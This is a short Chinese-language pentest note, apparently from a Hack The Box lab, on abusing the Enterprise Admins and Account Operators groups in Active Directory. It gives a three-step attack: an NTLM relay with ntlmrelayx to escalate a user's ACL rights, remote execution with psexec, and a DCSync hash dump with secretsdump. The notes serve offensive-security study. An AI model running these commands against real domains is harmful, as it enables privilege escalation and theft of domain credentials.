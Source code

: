 # Enterprise Admins

可实现ntml中继，也可以直接获取hash

组内的用户（DCSync）

与Account Operators搭配，创建一个属于这个组的用户

有时候需要借助于ntml中继

```clike
借助以下方法实现ntml中继（来实现DCSync攻击）
	1. 创建中继
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user bigb0ss     ---创建中继，当访问smb,http等方式访问时会自动检验能否修改acl，如果能，那就自动修改了
	2. 访问服务（http,smb等）
psexec.py htb.local/bigb0ss:bigb0ss@10.10.14.39   
	3.然后就可以枚举了
secretsdump.py htb.local/bigb0ss:bigb0ss@10.10.10.161 -just-dc-user administrator
```

‍
